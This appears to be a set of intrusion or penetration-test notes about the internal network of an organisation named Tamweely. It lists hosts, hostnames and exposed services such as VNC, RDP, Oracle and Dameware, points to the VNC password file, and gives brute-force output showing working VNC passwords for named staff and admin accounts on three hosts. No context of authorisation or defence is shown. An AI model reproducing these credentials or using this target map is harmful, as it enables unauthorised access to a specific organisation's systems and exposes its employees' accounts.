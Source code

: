 [ ] 10.10.80.21 | SSH + Oracle TNS + NFS + VNC
[ ] 10.10.80.24 | erpclone.tamweely.com | SSH + Oracle TNS + Oracel Weblogin + VNC + Tomcat
[ ] 10.10.80.25 | HP-SRV.Tamweely.Local | IIS + SMB + Print + RDP + VNC + Dameware Mini Remote Control
[ ] 10.10.80.30 | DC-01-SRV.Tamweely.Local | Simple DNS Plus + IIS + Kerberos + NFS + LDAP + RDP + VNC + Dameware + Anydesk + PostgreSQL + ManageEngine (nginx)
[ ] 10.10.80.50 | File-Server.Tamweely.Local | SMB + RDP + VNC + dameware
[ ] 10.10.80.51 | DFS-SRV.Tamweely.Local | SMB + RDP + VNC + Dameware
[ ] 10.10.80.151 | Commsrv.Tamweely.Local | Commvault + IIS + SMB + RDP + VNC + Dameware + Active MQ Openwire transport + Jetty + Galaxy Client Event manager + MongoDB + MSSQL
[ ] 10.10.80.152 | Cvlt-MA.Tamweely.Local | SMB + RDP + VNC + 8400 + 8403 + JavaRMI
[ ] 10.10.80.190 | tanalysis.tamweely.com | SSH + VNC

[X] 10.10.80.22 | erptest.tamweely.com | SSH + Oracle TNS + Oracle Weblogic + VNC + EBusiness Suite
[X] 10.10.80.120 | SSH + Oracle TNS + VNC
[X] 10.10.80.121 | SSH + Oracle TNS + Oracle Enterprise Manager Agent + VNC + Oracle Weblogic + CORBA naming service
[X] 10.10.80.196 | SSH + Oracle TNS + VNC + Tomcat

# VNC Password Location

.vnc/passwd

# 10.10.80.21: 5904
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: root Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: a.mostafa Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: aabdelghany Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: admin Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: applmgr Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: asaad Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: eccadmin Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: lts Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: madly Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: msafwat Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: oracleapp Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: oracleas Password: redhat [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.21 User: safwat Password: redhat [SUCCESS]

# 10.10.80.24: 5902
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: root Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: a.mostafa Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: aabdelghany Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: admin Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: applmgr Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: asaad Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: eccadmin Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: lts Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: madly Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: msafwat Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: oracleapp Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: oracleas Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: safwat Password: TAM@2020 [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.24 User: tomcat Password: TAM@2020 [SUCCESS]

# 10.10.80.190
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: root Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: a.mostafa Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: aabdelghany Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: admin Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: applmgr Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: asaad Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: eccadmin Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: lts Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: madly Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: msafwat Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: oracleapp Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: oracleas Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: safwat Password: P@ssw0rd [SUCCESS]
ACCOUNT FOUND: [vnc] Host: 10.10.80.190 User: tomcat Password: P@ssw0rd [SUCCESS]
